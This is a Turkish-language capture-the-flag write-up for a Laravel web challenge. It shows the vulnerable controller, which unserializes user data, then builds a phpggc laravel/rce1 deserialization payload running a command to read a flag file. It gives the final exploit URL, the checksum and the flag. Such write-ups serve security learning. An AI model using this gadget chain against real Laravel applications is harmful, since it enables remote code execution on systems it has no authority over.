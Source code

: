 # Esaret - Web 400


```
http://34.205.154.108  
```
URL'ye gittik ve karsimiza bu  geldi
![](EsaretFirst.png)

Alttaki kismi decode edip html olarak geri koyduk. Ve karşımıza `php` kodu belirdi

``` php

<?php

namespace App\Http\Controllers;

use Illuminate\Foundation\Bus\DispatchesJobs;
use Illuminate\Http\Request;
use Illuminate\Routing\Controller as BaseController;
use Illuminate\Foundation\Validation\ValidatesRequests;
use Illuminate\Foundation\Auth\Access\AuthorizesRequests;

class Controller extends BaseController
{
    use AuthorizesRequests, DispatchesJobs, ValidatesRequests;

    public function home(Request $request)
    {
        $data = $request->get('data');

        // show welcome, hide /flag.txt
        if(false == $request->has('data'))
            return view('welcome',  ['code' => highlight_file(__FILE__,true)]);

        // Check
        if($request->get('checksum') !== md5($data))
            abort(403, "Esaret..!");

        // Look for the class we want
        $object = unserialize(base64_decode($data));
        if(isset($object['c']))
        {
            $object['c']->open();
        }
        return view('welcome');
    }

    public function phpinfo()
    {
        phpinfo();
    }
}

```

`data` parametrisne `base64` gelen veri, `checksum` parametresi ile uyusuyorsa `base64` decode edilip `unserialize` ediliyordu.
`c` arrayini open metodu ile cagiriliyordu. En basta amele gibi class ismi arasakta birsey elde edemedik.

Uzunca bir arastirma sornasi ( 4 gün uyumadan )
[şöyle](https://github.com/ambionics/phpggc) birşeye denk geldik içinde laravel içinde `RCE` bulunmakta idi. Tamam diyip yola koyulduk.

```
th3-j4ck4l:~$ phpggc laravel/rce1 'cat /var/www/html/public/flag.txt' -s
O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"%00*%00events";O:15:"Faker\Generator":1:{s:13:"%00*%00formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"%00*%00event";s:33:"cat /var/www/html/public/flag.txt";}
```

Şeklinde çıktı veriyordu. Bu çıktı `-s` parametresi yüzünden `urlencode` edilmiş haliydi. Bunu `c` arrayine atıp çalıştırmak istedik.

``` php
<?php

$tmp=unserialize(urldecode('O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"%00*%00events";O:15:"Faker\Generator":1:{s:13:"%00*%00formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"%00*%00event";s:33:"cat /var/www/html/public/flag.txt";}'));

$dizi = array(
    "c" => $tmp
);
print_r(serialize($dizi));

 ?>
```

ile bunu `c` arrayine attık.

``` php
a:1:{s:1:"c";O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"*events";O:15:"Faker\Generator":1:{s:13:"*formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"*event";s:33:"cat /var/www/html/public/flag.txt";}}
```
 fakat çıktıda hata vardı. `urlencode`'ta olan `nullbyte`'lar kayboluyordu. onlarıda eklememiz gerekecekti

 ``` php
a:1:{s:1:"c";O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:15:"Faker\Generator":1:{S:13:"\00*\00formatters";a:1:{S:8:"dispatch";s:6:"system";}}S:8:"\00*\00event";s:33:"cat /var/www/html/public/flag.txt";}}
 ```

 bunu `base64` ile encode edip `MD5` ile sumunu alıp yolladığımızda [ise](http://34.205.154.108/index.php?data=YToxOntzOjE6ImMiO086NDA6IklsbHVtaW5hdGVcQnJvYWRjYXN0aW5nXFBlbmRpbmdCcm9hZGNhc3QiOjI6e1M6OToiXDAwKlwwMGV2ZW50cyI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntTOjEzOiJcMDAqXDAwZm9ybWF0dGVycyI7YToxOntTOjg6ImRpc3BhdGNoIjtzOjY6InN5c3RlbSI7fX1TOjg6IlwwMCpcMDBldmVudCI7czozMzoiY2F0IC92YXIvd3d3L2h0bWwvcHVibGljL2ZsYWcudHh0Ijt9fQ==&checksum=e0a4da073c328ba83afa67a0a09766eb) ;

![](flag.png)

flag karşımızda idi;


```
DKHOS_{EsaRetTenKurTuluSGeREKTirirCEsAReT}
```
